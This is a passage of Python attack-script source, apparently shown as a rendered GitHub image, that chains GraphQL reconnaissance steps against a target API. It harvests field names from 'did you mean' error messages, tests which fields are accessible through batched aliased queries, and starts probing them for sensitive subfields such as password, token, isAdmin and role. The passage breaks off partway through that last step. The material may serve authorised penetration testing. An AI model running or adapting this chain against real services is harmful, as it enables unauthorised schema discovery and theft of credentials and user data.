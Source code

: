          # Step 1: Use error disclosure to find field names
         print("[*] Step 1: Harvesting error messages to discover fields")
         query = {"query": "{ nonexistentField }"}
         response = requests.post(url, headers=headers, json=query)
         field_names = []
         
         if response.status_code == 200 or response.status_code == 400:
             result = response.json()
             if "errors" in result:
                 for error in result["errors"]:
                     message = error.get("message", "")
                     if "did you mean" in message.lower():
                         # Extract suggested field
                         import re
                         suggested = re.search(r'Did you mean "([^"]+)"', message)
                         if suggested:
                             field_name = suggested.group(1)
                             field_names.append(field_name)
                             print(f"[+] Discovered field: {field_name}")
         
         if not field_names:
             print("[-] No fields discovered, cannot continue chain")
             return
         
         # Step 2: Use batched queries to test discovered fields
         print(f"\n[*] Step 2: Testing discovered fields ({len(field_names)})")
         query_parts = []
         
         for i, field in enumerate(field_names):
             alias = f"field{i}"
             query_parts.append(f"{alias}: {field} {{ __typename }}")
         
         full_query = "{\n" + "\n".join(query_parts) + "\n}"
         response = requests.post(url, headers=headers, json={"query": full_query})
         
         accessible_fields = []
         if response.status_code == 200:
             result = response.json()
             if "data" in result:
                 for i, field in enumerate(field_names):
                     alias = f"field{i}"
                     if alias in result["data"] and result["data"][alias]:
                         accessible_fields.append(field)
                         print(f"[+] Accessible field: {field}")
         
         if not accessible_fields:
             print("[-] No accessible fields found, cannot continue chain")
             return
         
         # Step 3: Look for sensitive operations in accessible fields
         print(f"\n[*] Step 3: Testing for sensitive operations in {len(accessible_fields)} fields")
         for field in accessible_fields:
             # Try to access common sensitive subfields
             sensitive_subfields = ["id", "username", "email", "password", "token", "isAdmin", "role"]
             query = f"{{ {field} {{ {' '.join(sensitive_subfields)} }} }}"
             